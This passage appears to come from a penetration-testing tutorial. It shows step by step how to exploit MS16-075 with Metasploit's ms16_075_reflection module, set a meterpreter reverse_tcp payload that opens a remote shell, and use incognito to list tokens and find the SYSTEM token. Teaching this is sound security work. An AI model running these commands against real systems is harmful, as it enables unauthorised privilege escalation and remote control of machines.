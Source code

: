 1. Researching the MS16-075 vulnerability reveals a Metasploit module that can automate the token impersonation attack.

1. We can load the module in Metasploit by running the following command:

        use exploit/windows/local/ms16_075_reflection

1. After loading the module, you will need to configure the module options, this can be done by running the following commands:

        set payload /windows/x64/meterpreter/reverse_tcp
        set SESSION <SESSION-ID>

1. We can now run the module by running the following command:

        run

    If the module runs successfully, you should receive a new meterpreter session as shown in the screenshot below.

    ![Token impersonation - Metasploit meterpreter session](token-impersonation-metasploit-meterpreter-session.png "Token impersonation - Metasploit meterpreter session")

1. The next step involves performing the impersonation process and can be performed by loading the incognito module on meterpreter. This can be done by running the following command:

        load incognito

1. We can now use incognito to list the available tokens available for impersonation, this can be done by running the following command:

        list_tokens -u

    As shown in the following screenshot, we are able to identify the “NT AUTHORITY\SYSTEM” token.

    ![Screenshot of terminal output](list-tokens-output.png)
